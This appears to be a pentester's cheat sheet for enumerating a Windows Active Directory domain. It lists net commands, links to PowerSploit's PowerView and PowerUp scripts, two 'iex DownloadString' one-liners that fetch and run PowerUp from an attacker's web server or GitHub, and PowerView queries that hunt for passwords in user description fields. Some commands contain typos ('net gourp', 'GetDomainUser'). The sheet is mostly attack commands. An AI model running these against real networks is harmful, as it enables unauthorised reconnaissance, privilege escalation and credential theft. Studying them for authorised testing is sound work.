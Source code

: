 *All from Powershell*

- Local user `net user`
- List local admins `net localgroup Administrators`
- List all domain user `net user /domain`
- List all domain groups `net gourp /domain`
- List users in Domain Admin group `net group "Domain Admins" /domain`
- Domain and DC `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
- DC hostname `cmd.exe /c "echo %logonserver%"`

### PowerView.ps1
#### Download PowerView.ps1
Link 

https://raw.githubusercontent.com/ZeroDayLab/PowerSploit/master/Recon/PowerView.ps1

Or

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

Download and run from attacker's machine

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/PowerUp.ps1');Invoke-AllChecks
```

Download and run from internet

```
powershell iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Invoke-AllChecks
```

Load PowerView `. ./PowerView.ps1`

#### Domain Controller

- `Get-DomainController`

#### Users

- Get all users `Get-DomainUser`
- Get all users usernames `Get-DomainUser | select -ExpandProperty samaccountname`
- Get users with highest number of logon `GetDomainUser -Properties samaccountname, logoncount`

**Search for users whose desrcription contains keywords**

Get local users

`Get-DomainUser -LDAPFilter "Description=*built*" | Select name, Description`

Get passwords in description

`Get-DomainUser -LDAPFilter "Description=*password*" | Select name, Description`

#### Computers

- List all computers `Get-DomainComputer | select -ExpandProperty dnshostname`
